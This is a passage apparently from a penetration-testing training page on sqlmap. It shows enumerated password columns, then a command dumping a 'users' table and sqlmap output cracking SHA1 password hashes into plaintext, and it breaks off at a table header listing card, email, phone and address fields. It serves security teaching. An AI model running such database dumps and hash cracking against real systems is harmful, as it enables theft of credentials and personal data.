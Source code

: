 ```shell-session
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column | Type |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column | Type |
+----------+----------+
| Password | char(64) |
+----------+----------+
```

---

## Password Enumeration and Cracking

Once we identify a table containing passwords (e.g.`master.users`), we can retrieve that table with the`-T` option, as previously shown:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e' 
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9' 
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917' 
Database: master 
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc | name | email | phone | address | birthday | password | occupation |
```